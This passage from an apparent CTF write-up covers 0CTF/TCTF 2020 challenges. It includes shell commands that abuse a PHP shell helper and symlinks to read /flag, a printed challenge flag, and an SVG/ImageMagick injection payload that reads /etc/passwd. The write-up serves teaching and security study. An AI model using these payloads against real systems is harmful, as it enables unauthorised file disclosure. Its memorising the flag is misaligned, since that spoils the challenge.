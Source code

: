 Actual commands to solve the problem:

```sh
$ ./deploy.py

$ ./shell.py 'symlink(__DIR__."/config.json", __DIR__."/whatever.php");'

$ ./shell.py '$url="http://localhost/init?dir=/var/www/html/$dir";echo file_get_contents("$url");'
success

$ ./shell.py '$url="http://localhost/scan?dir=/var/www/html/$dir";echo file_get_contents("$url");'
success

$ ./deploy.py

$ ./shell.py '$url="http://localhost/read?dir=/var/www/html/$dir";echo file_get_contents("$url&target=/flag");'
file contents:ZmxhZ3tkYzZhNzNhZjA1MmM2MTM1YjRjNjM1NmE0YWFmMGI1OH0K
```

and the base64-decoded flag is `flag{dc6a73af052c6135b4c6356a4aaf0b58}`


## Web / Wechat Generator

> Come and check my latest innovation! It’s normal to encounter some bugs and glitches since it is still in beta development.

![](/assets/blog/0ctf-tctf-2020-quals/image-1.png)

Screenshot of homepage
Clicking on Preview generates image on the backend and returns it as a base64-encoded string (suitable for displaying in browsers via `data:` URL) together with `previewid` UUID.

Clicking on Share, on the other hand, generates an URL based on specified `previewid`, for example: http://pwnable.org:5000/image/wNCByR/png. One can access such URL and download images in different formats by changing the last part of URL.

Some research showed that ImageMagick is running underneath, and there are lot of supported formats for the image URL, including `svg`, `pdf`, `jpg`, `htm`, etc.

We tried a lot of stuff, but eventually we realized that emojis which are implemented via custom `[emoji-name]` tag, are reflected directly in the resulting SVG file. For example, `[whatever<b>hello</b>]` results in:

```html
<image x="0" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/whatever"><b>hello</b>...
```

Another piece of solution: suddenly, we realized that ImageMagick has this nice feature of including text in the rendering of the SVG image. For example, this payload:

```md
[smile.png"/><image width="1200" height="1200" href="text:/etc/passwd"/> <image href="x]
```
